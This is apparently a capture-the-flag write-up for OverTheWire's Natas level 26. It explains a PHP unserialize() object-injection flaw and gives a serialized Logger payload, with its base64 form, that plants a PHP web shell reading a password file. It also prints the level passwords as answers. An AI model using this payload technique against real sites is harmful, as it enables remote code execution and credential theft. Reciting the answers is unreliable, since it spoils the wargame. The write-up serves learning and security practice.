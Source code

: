 # Level 25 → Level 26

## Details
Username: `natas26`<br />
Password: `8A506rfIAXbKKk68yJeuTuRq4UfcK70k`<br />
URL:      http://natas26.natas.labs.overthewire.org

## Solution
It was an interesting challenge that took me some time. Let's see what happens there.

![](0.png)

![](1.png)

The strangest part of the code is the `Logger` class because **it has no use** in the rest of the code.

To understand the rest of the code you need to see an example first:

![](2.png)

That is, the input is two points, and the output is a black image with a line represented by those two points. If we stay in the same session and insert more points, we will find that the output will be all the lines drawn so far. The information itself for each session is saved in a cookie in key named `drawing` (which grows with each new request).

Let's see how the information from `drawing` is interpreted on the server:

![](3.png)

![](4.png)

![](5.png)

This means that the information is interpreted using a function called `unserialize()`. Let's read about it [here](https://www.php.net/manual/en/language.oop5.serialization.php) and [here](https://en.wikipedia.org/wiki/PHP_serialization_format).

In the first source there is a very important sentence:

![](6.png)

It means only one thing. If we put in the `drawing` a coding of the `Logger` object **we can use its destructor!**

The second reading source (attached above) taught me how to code an object, and that's how I came up with the following coding:

```
O:6:"Logger":3:{s:7:"logFile";s:20:"img/hacked.php";s:7:"initMsg";s:10:"not in use";s:7:"exitMsg";s:59:"<?php echo shell_exec('cat /etc/natas_webpass/natas27'); ?>";}
```
* Files can only be created in the `img` folder.

In base64 it comes out:

```
Tzo2OiJMb2dnZXIiOjM6e3M6NzoibG9nRmlsZSI7czoxNDoiaW1nL2hhY2tlZC5waHAiO3M6NzoiaW5pdE1zZyI7czoxMDoibm90IGluIHVzZSI7czo3OiJleGl0TXNnIjtzOjU5OiI8P3BocCBlY2hvIHNoZWxsX2V4ZWMoJ2NhdCAvZXRjL25hdGFzX3dlYnBhc3MvbmF0YXMyNycpOyA/PiI7fQ==
```

We will change the value of drawing to be the above base64 and make a GET HTTP request (without values in the coordinates)

![](7.png)

![](8.png)

I'm not sure why the password was written like that twice.. Maybe the first time is in the creation of the file and the second now in the current request. I'm really not sure... but hey! That's the password anyway!

## Password for the next level:
```
PSO8xysPi00WKIiZZ6s6PtRmFy9cbxj3
```
